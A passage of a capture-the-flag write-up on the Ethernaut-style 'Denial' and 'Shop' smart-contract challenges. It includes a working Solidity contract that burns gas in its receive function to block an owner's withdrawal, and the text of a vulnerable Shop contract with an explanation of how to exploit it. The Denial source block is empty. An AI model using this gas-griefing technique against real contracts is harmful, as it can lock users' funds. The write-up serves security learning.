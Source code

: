 ```solidity
```

This challenge is similar to "9. King" challenge. We have to deny the owner from withdrawing the funds. The exploit for "King" challenge doesn't work here, That's because "call" is used instead of "transfer" to send ether. "call" doesn't propagate the errors, it just returns boolean indicating the success of the "call". so, simply reverting from fallback function doesn't solve this challenge. What we can do is consume all the available gas in the fallback function using some gas heavy operations and when the call is completed, there won't be enough gas for further operations and transaction fails because of low gas. As storage operations consume maximum gas, we can use loops to repeatedly read and write to storage.

```solidity
pragma solidity ^0.6.0;

contract DenialExploit {
    uint f;
    uint s;
    uint k;
    receive() external payable {
        for (uint i = 0; i < 10000; i++) {
            f = f + i**2;
            s = s + f;
        }
    }
}
```

### Shop

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price{gas:3300}() >= price && !isSold) {
      isSold = true;
      price = _buyer.price{gas:3300}();
    }
  }
}
```

This challenge is similar to "11. Elevator" i.e we have to return different values from the same function, based on the number of call. In this, for the first call to our "Buyer" contract's "price" function, it has to return number greater than 100 and for second call to the same function, it should return number less than 100. This challenge differs "Elevator" challenge in how much gas is forwarded for the call. While calling "price" function, "Shop" contract forwards exactly "3300" gas. $$3300$$ gas is very less to do any storage operations i.e provided gas is not enough to store a value in state variable which makes "Elevator" challenge exploit useless. Without a state variable, we have to use "Shop" contracts "isSold" variable to differentiate the calls. Note that "isSold" is changed to true between the two calls. Even if we don't use storage related operations, to complete message call to another contract with the available gas, we have to write the price function in solidity assembly "Yul" language minimizing the gas consumption.
